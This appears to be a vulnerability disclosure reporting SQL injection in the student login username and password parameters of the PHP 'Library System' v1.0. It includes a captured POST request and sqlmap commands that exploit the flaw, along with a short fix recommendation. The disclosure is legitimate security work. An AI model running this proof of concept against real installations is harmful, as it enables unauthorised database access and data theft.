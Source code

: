 # Library System In PHP - SQL Injection (Student Login)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/login.php

> Two parameters `username` and `password` within student login are vulnerable to SQL Injection.


![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3Library System In PHP-Sqli-student_login_username.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3Library System In PHP-Sqli-student_login_password.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentlogin.txt`:

```
POST /Lms/Source/librarian/user/student/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 87
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

login=Login&password=-1&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentlogin.txt --batch --dbms MYSQL --is-dba -p username
```
```
sqlmap -r studentlogin.txt --batch --dbms MYSQL --is-dba -p password
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
